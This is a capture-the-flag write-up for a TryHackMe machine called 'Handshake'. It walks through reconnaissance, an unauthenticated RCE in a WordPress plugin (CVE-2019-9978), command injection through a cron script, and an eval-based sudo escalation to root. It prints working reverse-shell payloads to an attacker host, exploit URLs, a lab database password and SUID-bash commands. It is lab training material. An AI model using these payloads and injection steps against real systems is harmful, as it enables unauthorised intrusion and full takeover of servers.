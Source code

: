 # THM: Handshake - Detailed Writeup

**Author**: Huseyin Mardinli

**Date**: 2025-05-19

---

## Introduction

"Handshake" is a custom-made vulnerable machine for TryHackMe, designed to test a wide spectrum of pentesting skills: reconnaissance, web exploitation, Linux privilege escalation, and post-exploitation through misconfigured automation. The target leverages a vulnerable WordPress plugin and insecure custom scripts with cron-based automation, ultimately leading to root access via command injection.

---

## 1. Reconnaissance

### 1.1 Nmap Scan

```bash
nmap -sC -sV HOST_IP
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Handshake
|_http-generator: WordPress 6.8.1
```

SSH and HTTP services are open. WordPress is hosted on port 80.

### 1.2 Hostname Mapping

```bash
echo "HOST_IP handshake.thm" | sudo tee -a /etc/hosts
```

### 1.3 WordPress Enumeration

```bash
wpscan --url http://handshake.thm
```

Output reveals:

* **WordPress Version**: 5.2.2
* **Plugin**: Social Warfare v3.5.2
* **Vulnerability**: CVE-2019-9978 — Unauthenticated RCE via `swp_debug` parameter.

You can find two exploits here 

🔗 Single github exploit file (<=3.5.2): [https://github.com/Housma/CVE-2019-9978-Social-Warfare-WordPress-Plugin-RCE](https://github.com/Housma/CVE-2019-9978-Social-Warfare-WordPress-Plugin-RCE)

And


🔗 CVE-2019-9978 - (PoC) RCE in Social WarFare Plugin (<=3.5.2): [https://github.com/hash3liZer/CVE-2019-9978](https://github.com/hash3liZer/CVE-2019-9978)

---

## 2. Gaining Initial Foothold

## CVE-2019-9978 Exploit Usage

This exploit automates the following:

* Generates a PHP reverse shell payload with proper escaping.
* Hosts the payload on a Python HTTP server.
* Triggers the exploit using the vulnerable plugin.
* Catches a reverse shell via Netcat.

### Requirements

* Python 3
* Netcat (`nc`)
* The target (`handshake.thm`) should resolve correctly to its IP.

### Setup

Clone the exploit and run:

```bash
git clone https://github.com/Housma/CVE-2019-9978-Social-Warfare-WordPress-Plugin-RCE.git
cd CVE-2019-9978-Social-Warfare-WordPress-Plugin-RCE
python3 exploit.py
```

### Configuration in Script

Edit `exploit.py` and set:

```python
TARGET_URL = "http://handshake.thm"
ATTACKER_IP = "YOUR_IP"
LISTEN_PORT = 4444
```

### Example Output

```bash
[+] Payload written to payload.txt
[+] HTTP server running at port 8000
[+] Listening on port 4444 for reverse shell...
[+] Sending exploit: http://handshake.thm/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://YOUR_IP:8000/payload.txt
```

On successful exploitation, you'll receive a reverse shell as `www-data`:

```bash
www-data@handshake:/var/www/html/wp-admin$
```


---

## 3. Privilege Escalation to Bob

### 3.1 Discover MySQL Credentials

```bash
cat wp-config.php | grep DB_
```

```php
define( 'DB_USER', 'wp_user' );
define( 'DB_PASSWORD', '0!@KvnTuv%4' );
```

### 3.2 Analyze Cron Job

```bash
cat /etc/crontab
```

```
*/1 * * * * bob /usr/local/bin/gen_sitemap.py
```

**gen\_sitemap.py** runs every minute. It connects to MySQL, fetches WordPress slugs, and calls `curl` on them — without sanitization.

#### Vulnerable Function

```python
def check_url(url):
    cmd = f"curl -s -o /dev/null -w '%{{http_code}}' --max-time 2 {url} | grep 200 > /dev/null"
    return os.system(cmd) == 0
```

### 3.3 Exploit Command Injection

Insert payload into WordPress database via MySQL:

    mysql -u wp_user -p 

    use wordpress;

    INSERT INTO wp_posts( post_author ,post_date ,post_date_gmt ,post_content ,post_title ,post_excerpt ,post_status ,comment_status ,ping_status ,post_name ,post_modified ,post_modified_gmt ,post_type ,to_ping ,pinged ,post_content_filtered ,post_parent ,guid ,menu_order ,post_mime_type ,comment_count) VALUES ( 1 ,NOW() ,NOW() ,'Exploit' ,'Exploit' ,'' ,'publish' ,'open' ,'open' ,"| bash -c 'bash -i >& /dev/tcp/attacker_ip/4445 0>&1'" ,NOW() ,NOW() ,'post' ,'' ,'' ,'' ,0 ,'http://handshake.thm/?p=99999' ,0 ,'' ,0 );
    
    

Set up listener:

```bash
nc -lnvp 4445
```


After 1 minutes, received connection as bob:

    bob@handshake:~$ id
    uid=1001(bob) gid=1001(bob) groups=1001(bob)




## 4. Privilege Escalation to Root

### 4.1 Sudo Permissions

```bash
sudo -l
```

```
(ALL) NOPASSWD: /usr/local/bin/scan
```

### 4.2 Vulnerable Scan Script

```bash
cat /usr/local/bin/scan
```

```bash
SCAN_RESULT=$(eval "clamscan $@")
```

The script uses `eval` unsafely — allowing command injection.

### 4.3 Exploit

```bash
sudo /usr/local/bin/scan ';cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash'
/tmp/rootbash -p
```

Result:

```bash
rootbash-5.0# id
uid=1001(bob) gid=1001(bob) euid=0(root)
```

---

## Conclusion

The "Handshake" machine demonstrates:

* Discovery and exploitation of outdated WordPress plugins.
* Abuse of unsanitized cron jobs and custom scripts.
* Full chain from web foothold to root via simple yet realistic misconfigurations.

